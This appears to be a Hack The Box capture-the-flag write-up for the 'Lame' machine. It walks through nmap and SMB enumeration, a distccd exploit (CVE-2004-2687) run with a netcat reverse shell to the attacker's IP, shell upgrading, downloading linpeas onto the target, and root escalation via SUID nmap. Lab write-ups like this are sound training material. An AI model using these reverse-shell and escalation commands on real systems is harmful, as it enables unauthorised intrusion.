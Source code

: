 # HTB_Writeups - Lame

Started off with a nmap scan. 
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3

While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.

We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.
But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.                                                         





I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users. 



we can see that tmp is READ, WRITE. Lets login and see what we can find.
I use smbclient \\\\10.10.10.3\\tmp and we get a hit. I use ls to see what we can find. Unfortunately there is nothing here either. We could use
put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.



I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1
I go to google and search for "distccd v1 exploit" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell. 

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py
the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command
./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried.
python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new. 
So I was going to work my way down from python3 to python. Next up,
python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell!





Let's upgrade the shell. I used the following.
python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work. 
export TERM=xterm
stty raw -echo && fg
enter
enter

We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on.
I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag. 





Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.
I use python3 -m http.server 80 get the server up and running.
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file.
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.






the /usr/bin/nmap suid
I head over to https://gtfobins.github.io/ and search for nmap
I cd /usr/bin where the suid is located.
I start off with shell code (a) and nothing happened. So I keep going down the list. 
Shell (b) worked!



we can now cd /root and see what is there which is the root.txt flag!
we have successfully rooted this box!





![image](https://user-images.githubusercontent.com/110210595/185772640-85dbee62-fae2-4ba5-80e3-472b5c40cb1c.png)
